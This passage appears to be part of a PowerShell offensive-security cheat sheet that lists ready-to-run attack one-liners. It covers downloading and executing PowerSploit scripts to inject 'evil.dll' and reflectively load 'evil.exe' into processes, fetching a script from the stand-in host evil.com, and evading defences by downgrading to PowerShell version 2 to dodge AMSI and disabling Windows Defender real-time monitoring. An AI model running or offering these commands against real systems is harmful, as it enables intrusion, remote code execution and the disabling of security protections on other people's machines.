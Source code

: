 Injection DLL into the process

```powershell
#Inject 'evil.dll' into the process ID 624
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1');Invoke-DllInjection -ProcessID 624 -Dll evil.dll
```

Reflective PE Injection

```powershell
#Load 'evil.exe' and run it locally with 'Arg1' argument
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1');$PEBytes = [IO.File]::ReadAllBytes('evil.exe');Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1"
```

### Download File

Download File with **Net.WebClient**

```powershell
#Download script from http://evil.com/script.ps1
iex (New-Object Net.WebClient).DownloadFile("http://evil.com/script.ps1","C:\Windows\Temp\script.ps1")
```

Download File with **Invoke-WebRequest**

```powershell
#Download script from http://evil.com/script.ps1
Invoke-WebRequest "http://evil.com/script.ps1" -OutFile "script.ps1"
```

## Evasion/Bypass

### Disable Windows Defender/AMSI

Run **PowerShell Version 2** which doesn't support AMSI

```powershell
powershell.exe -Version 2
```

Disable AMSI Module

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

Disable Realtime Monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Most Used Arguments
